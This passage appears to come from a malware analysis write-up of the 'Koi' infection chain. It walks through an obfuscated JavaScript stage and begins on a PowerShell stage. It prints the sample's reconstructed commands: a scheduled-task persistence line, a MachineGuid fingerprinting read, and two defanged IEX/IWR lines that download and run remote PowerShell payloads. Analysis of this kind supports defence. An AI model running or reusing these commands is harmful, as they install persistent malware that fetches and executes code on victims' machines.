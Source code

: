 The next stage follows similar mechanisms as the previous stage by downloading another JavaScript file to the victims machine.

The contents of this file are as follows...

![koi screenshot](/assets/images/malware-analysis/koi/17.png)

As seen, the payload is obfuscated using broken strings and variable splitting to try and evade detection. 

However, when reconstructed it becomes clear the main objective is to establish persistence and download two additional powershell payloads.

**Script breakdown**:

  - `schtasks /create /sc minute /mo 1 /tn 7hj9Ccb53mglYte /f /tr "wscript '%tmp%\\GALT9VCO8SHB.js'"` – Persistence setup.
        
  - `bbj.RegRead('HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Cryptography\\MachineGuid')` – Machine fingerprinting (unique identifier)

  - `IEX(IWR -UseBasicParsing 'hxxps://lechiavetteusb[.]it/imgs/usb/logo/khesariQUXH.ps1')` – First powershell payload being downloaded.

  - `IEX(IWR -UseBasicParsing 'hxxps://lechiavetteusb[.[it/imgs/usb/logo/wizeninglYZn.ps1')` - Second powershell payload being downloaded.

# Stage 4a: Powershell #1

To begin this stage we will first look into the 'khesariQUXH.ps1' script by simply using the cat command.

![koi screenshot](/assets/images/malware-analysis/koi/18.png)

To format this a bit clearer here is the output...
